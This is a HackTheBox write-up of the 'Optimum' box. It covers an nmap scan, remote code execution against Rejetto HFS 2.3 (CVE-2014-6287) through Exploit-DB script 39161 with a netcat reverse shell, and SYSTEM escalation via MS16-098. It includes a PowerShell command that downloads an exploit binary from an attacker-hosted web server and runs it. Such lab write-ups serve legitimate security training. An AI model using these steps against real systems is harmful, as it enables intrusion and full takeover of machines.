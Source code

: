 ```yaml
---
layout: post
title: "Optimum"
author: "Emmet Friel"
categories: HackTheBox
image: htb/optimum/optimum.png
---
```


# Introduction

This box was interesting and a pain, it took me longer than it should have but it gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.

# Reconnaissance & Enumeration

```bash
root@kali:~# nmap -sC -sV -O -p- -oN nmap.nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 10:53 BST
Nmap scan report for 10.10.10.8
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.40 seconds
```
- -sC : scripting scan, equivalent to also writing –script=default
- -sV: service version
- -O  : Operating System version
- -p- : scanning all 65536 ports
- -oN: Output result to a normal text file called nmap.nmap

| ![image]({{site.github.url}}/assets/img/htb/optimum/hfs_opt.png) |
| :--: |
| *HFS Webpage running on port 80* |

Any webpage running on port 80 I always perform a dirb and nikto scan in the background, so I did just that however a quick search on the service version gave me everything I needed to get access into the system. 

The exploit I used was: <a href="https://www.exploit-db.com/exploits/39161" target="_blank_">Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</a> which refers to CVE-2014-6287. The vulnerability is 
> “The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.” In other words, using the search bar on the website we can execute code server side using the null sequence.

There are now two approaches to exploit the machine: 
1. Execute commands in the search bar on the website using the null byte (%00)
2. Use the exploit script we found through a quick search.

For simplicity, I am going to use the scripting option.

# Shell Access

To use the script there are 3 important variables:

1. Change the IP address to your own: 
```bash
ip_addr = "192.168.44.128" #local IP address
```

2. Change the port which you are going to listen on:
```bash
	local_port = "443" # Local Port number
```

3. Host a webserver serving netcat (nc.exe). I am using SecLists GitHub repo for nc.exe which you can clone from their GitHub page.
```bash
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

Once I edited the script, I setup my netcat listener, python webserver and then executed the script: ```python 39161.py <target IP> <target port>``` 
Note that it may take a few attempts for the script to work. 

| ![image]({{site.github.url}}/assets/img/htb/optimum/opt_terminal.png) |
| :--: |
| *Running the attack and having a reverse shell access to the victim machine* |


# Privilege Escalation using Windows Suggester

You can see I am user “kostas” from the terminal. I do not have Admin permissions so it’s time to escalate to root! To do this I used the <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank_">Windows Exploit Suggester</a> tool. The tool is really simple and extremely powerful, it compares all the patches on the machine to Microsoft’s patch database and outputs a “suggested” list of exploits. I have seen older tutorials use “Sherlock” instead of “Windows Suggester” but if you have a look at Sherlock’s GitHub, the repo hasn't been updated in 3 years :\ 

To do this, run ```systeminfo``` and then copy and paste the output to a file: ```systeminfo.txt``` in my case 

```windows
C:\Users\kostas\Desktop>systeminfo
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-07-mssb.xls
[*] done
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --database 2020-04-07-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) – Critical
```

The output of windows-exploit-suggester shows a grand collection of exploits to try out so at this stage it’s really trial and error. Note that some attempts caused the machine to crash and so you would have to set up the reverse shell again, nothing major.
After trial and error, MS16-098 got me that nice root shell :)

I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.

```windows
C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')"
```

```windows
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved. 

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```